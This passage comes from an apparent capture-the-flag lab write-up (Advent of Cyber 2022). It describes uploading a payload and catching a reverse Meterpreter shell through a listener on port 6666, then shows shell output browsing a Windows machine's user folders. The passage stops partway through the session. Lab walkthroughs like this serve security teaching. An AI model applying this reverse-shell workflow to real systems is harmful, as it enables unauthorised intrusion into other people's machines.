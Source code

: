 ![upload](/images/thm/adventofcyber4/adventofcyber4_101.png)
_upload_

We can set up a listener on port 6666 or a metsploit handler :

![Reverse shell](/images/thm/adventofcyber4/adventofcyber4_102.png)
_Reverse shell_

After waiting a few minutes, we finally get a reverse meterpreter : 

```console
meterpreter > shell
C:\Windows\system32>cd /Users	
cd /Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users

11/14/2022  05:58 AM    <DIR>          .
11/14/2022  05:58 AM    <DIR>          ..
11/23/2022  05:38 AM    <DIR>          Administrator
11/20/2022  11:48 AM    <DIR>          HR_Elf
12/12/2018  07:45 AM    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)  14,584,619,008 bytes free

C:\Users>cd HR_Elf	
cd HR_Elf

C:\Users\HR_Elf>cd Documents
cd Documents

C:\Users\HR_Elf\Documents>dir
dir
```